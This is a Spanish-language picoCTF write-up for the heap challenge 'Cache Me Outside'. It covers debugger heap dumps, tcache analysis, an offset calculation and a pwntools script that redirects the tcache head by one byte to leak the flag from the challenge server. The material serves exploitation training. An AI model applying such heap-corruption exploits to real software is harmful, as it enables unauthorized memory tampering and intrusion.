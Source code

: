 # Cache Me Outside

En este ejercicio nos ofrecen tres archivos:

* heapedit (el binario)
* Makefile (información sobre cómo se compiló el programa)
* libc.so.6

Si intentamos ejecutar el binario veremos que no funciona:

```c
./heapedit
Inconsistency detected by ld.so: dl-call-libc-early-init.c: 37: _dl_call_libc_early_init: Assertion `sym != NULL' failed!
```

Como nos dan una libc personalizada, vamos a usar nuestra herramienta de confianza: **pwninit**. Además, crearemos un archivo `flag.txt` para evitar posibles errores en el futuro.

```c
You may edit one byte in the program.
Address: 10
Value: 10
t help you: this is a random string.
```

Ahora podemos empezar a ver qué hace el programa. Parece que, proporcionando una dirección y un valor, podemos cambiar un byte a voluntad en una dirección bajo nuestro control.

Vamos a echarle un vistazo al heap del programa en ejecución:

```c
0x6037f00x00000000000000000x0000000000000091................
0x6038000x00000000000000000x662072756f592021........! Your f <-- tcachebins[0x90][1/2]
0x6038100x203a73692067616c0x706d616320736747lag is: Ggs camp
0x6038200x0000000a216e6f650x0000000000000000eon!............
...
0x6038900x00000000006038000x276e6f7720736968.8`.....his won'<-- tcachebins[0x90][0/2]
0x6038a00x7920706c656820740x73696874203a756ft help you: this
0x6038b00x61722061207369200x727473206d6f646eis a random str
...
```

Como vemos, hay mucha información. Al principio está el chunk del tcache, y luego varios chunks; dos de ellos están libres y alojados en la tcache. Si pensamos un poco, podemos intuir que el programa, tal como funciona, imprime en consola el contenido del chunk que está en la cabeza de la lista. Es decir, hay dos chunks en `tcachebins` y justo el que está en la cabeza es el que se imprime en pantalla.

Si seguimos observando, podemos ver que el otro chunk imprime una frase y, a su vez, la flag. Entre la dirección de un chunk y el otro solo hay un byte de diferencia. Así que, si unimos eso con el hecho de que podemos modificar un byte a voluntad, sabemos que tenemos que hacer que la cabeza de `tcachebins` cambie de `0x603890` a `0x603800`, cambiando el último byte de `0x90` a `0x00`.

Lo que pasa es que no tenemos ningún punto de referencia para calcular direcciones. Comprobemos primero si el binario tiene PIE:

```c
checksec
File:     /home/ub1cu0/Desktop/PWN/picoCTF/Cache_me_outside/heapedit_patched
Arch:     amd64
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
RUNPATH:    b'.'
Stripped:   No
```

No tiene PIE, por lo que si conseguimos un offset siempre será el mismo. Primero necesitamos saber cómo funciona el valor de la dirección en el programa:

```c
*(undefined *)((long)direccion + (long)local_a0) = valor;
```

Como vemos, en realidad nuestra dirección es un offset en decimal respecto a otra dirección. Solo nos queda saber cuál es esa otra dirección:

```c
for (local_a4 = 0; local_a4 < 7; local_a4 = local_a4 + 1) {
    local_98 = (undefined8 *)malloc(0x80);
    if (direccion_base == (undefined8 *)0x0) {
      direccion_base = local_98;
    }
    *local_98 = 0x73746172676e6f43;
    local_98[1] = 0x662072756f592021;
    local_98[2] = 0x203a73692067616c;
    *(undefined *)(local_98 + 3) = 0;
    strcat((char *)local_98,local_58);
}
```

Según esto, sabemos que la dirección base es la del primer chunk alojado. Vamos a calcular qué distancia hay entre ese chunk y la dirección que queremos modificar:

```c
// Primero miramos dónde se guarda la cabeza que queremos modificar 
pwndbg> tcache
tcache is pointing to: 0x602010 for thread 1
{
  counts = "\000\000\000\000\000\000\000\002", '\000' <repeats 55 times>,
  entries = {0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x603890, 0x0 <repeats 56 times>}
}
pwndbg> dq 0x602010 20
...
pwndbg> db 0x602080 16
0000000000602080     00 00 00 00 00 00 00 00 90 38 60 00 00 00 00 00 // 8 bytes basura
```

La dirección del primer chunk la obtenemos con el comando `vis` en pwndbg.

Ahora que tenemos los datos necesarios, podemos hacer el exploit:

```python
#!/usr/bin/env python3

from pwn import *
import sys

exe = ELF("./heapedit_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")

context.binary = exe
context.terminal = ['kitty']
gdb_script = '''
b main
continue
'''

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdb_script)
        return r
    return remote("mercury.picoctf.net", 31153)

def main():
    io = conn()
    
    offset = -0x1420 + 0x08
    valor = 0x00

    info(f'Offset = {offset}')

    io.sendlineafter(b'Address: ', str(offset).encode())
    io.sendlineafter(b'Value: ', "\0")
    io.interactive()

if __name__ == "__main__":
    main()
```

Y la salida:

```c
[+] Opening connection to mercury.picoctf.net on port 31153: Done
[*] Offset = -5144
...
lag is: picoCTF{SECRET}
...
[*] Got EOF while reading in interactive
```

¡Funciona, gracias por leer!
